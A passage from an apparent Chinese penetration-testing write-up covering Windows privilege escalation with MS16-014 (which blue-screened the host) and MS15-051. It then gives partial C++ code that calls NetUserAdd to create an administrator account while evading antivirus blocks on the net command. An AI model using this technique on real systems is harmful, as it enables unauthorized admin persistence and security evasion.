 [![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-ecfdd1f011a5b93d3a68253bab899b66b4dca2fc.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-ecfdd1f011a5b93d3a68253bab899b66b4dca2fc.png)

查找我们可以使用的脚本来进行利用尝试

使用MS16-014下载使用

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-6030c8066d10e6ff1ff8bb336122692f9c0f26d8.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-6030c8066d10e6ff1ff8bb336122692f9c0f26d8.png)

打开使用

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-d8701c0db5c573a2c2764c8ccbd6c3bbc5d112bf.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-d8701c0db5c573a2c2764c8ccbd6c3bbc5d112bf.png)

宕机蓝屏

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-37df0ebf8e66693796c7e95c166d85c28ce6225c.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-37df0ebf8e66693796c7e95c166d85c28ce6225c.png)

所以说我们盲目的去使用一些可能会导致系统崩溃的脚本来尝试正常的业务环境，如果导致客户的业务崩溃，可能会造成一些无法挽回的损失。

最后使用`ms15-051`提权成功。`system`权限

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-8104f63c2413f1bcb20eb5cd8232a7d271478b11.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-8104f63c2413f1bcb20eb5cd8232a7d271478b11.png)

使用`system`权限添加管理员账号时被狗狗拦截了

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-62d27d75118c69b22ea242e0dfdb6b350646540b.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-62d27d75118c69b22ea242e0dfdb6b350646540b.png)

最后请教了一些大佬，大佬们说可以使用Windows api函数添加管理员账户，去百度学习了一番

我们在渗透测试过程中需要添加管理员账号是通常是通过CMD调用net命令，然而一些杀软会限制CMD的一些命令，我们就可以使用windows自带的api函数来执行这些操作，从而绕过一些杀软的限制。（很老的方法了，很多的杀软都开始限制api的一些高危操作了）

代码原理：

`使用NetUserAdd添加普通权限的用户，NetLocalGroupAddMembers添加管理员权限。`

代码如下:

```c++
#ifndef UNICODE    
#define UNICODE    
#endif    
#include  <stdio.h>  
#include  <windows.h>  
#include  <lm.h>  
#include <iostream>
#pragma comment(lib,"netapi32")    
int Usage(wchar_t*);
int wmain(int argc, wchar_t* argv[])
{
    // 定义USER_INFO_1结构体
    USER_INFO_1 ui;
    DWORD dwError = 0;
    ui.usri1_name = L"test";            // 账户    
    ui.usri1_password = L"Test@qq.com";      // 密码
    ui.usri1_priv = USER_PRIV_USER;
    ui.usri1_home_dir = NULL;
    ui.usri1_comment = NULL;
    ui.usri1_flags = UF_SCRIPT;
    ui.usri1_script_path = NULL;
    //添加名为test的用户,密码为Test@qq.com    
```